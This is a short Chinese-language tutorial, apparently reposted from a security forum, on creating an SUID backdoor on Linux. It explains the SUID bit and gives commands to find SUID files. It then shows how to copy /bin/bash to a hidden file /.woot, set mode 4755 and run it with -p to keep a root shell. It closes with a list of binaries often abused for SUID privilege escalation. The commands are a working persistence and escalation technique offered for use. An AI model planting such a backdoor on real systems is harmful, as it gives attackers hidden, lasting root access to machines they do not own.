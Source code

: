# suid 后门

> 原文：[https://www.zhihuifly.com/t/topic/3502](https://www.zhihuifly.com/t/topic/3502)

## suid 后门

suid说明：

1.  用户或属主对应的前三位权限的x位上如果有s就表示suid权限。当x位上没有小写x执行权限的时候，suid的权限显示的就是大S。

2.  suid作用是让普通用户可以以root（或其他）的用户角色运行只有root（或其他）账号才能运行的程序或命令，或程序命令对应本来没有权限操作的文件等。

先查找具有suid的文件：

```
find / -perm +4000 -ls
find . -perm /4000
find / -user root -perm -4000 -print 2>/dev/null 
```

将具有suid的复制到指定目录，然后再给权限执行。

```
cp /bin/bash /.woot
chmod 4755 /.woot
/.woot -p 
```

![image](img/5df5c1c06462c3760d60de9a10182697.png)

列出一些具有suid权限的文件、然后利用一些二进制文件的特性来执行额外的命令。

```
Nmap
Vim
find
Bash
More
Less
Nano
cp 
```

常见的suid提权的程序。

![image](img/ceb5fda8ef6fd3dc41e5ef21caa7e55d.png)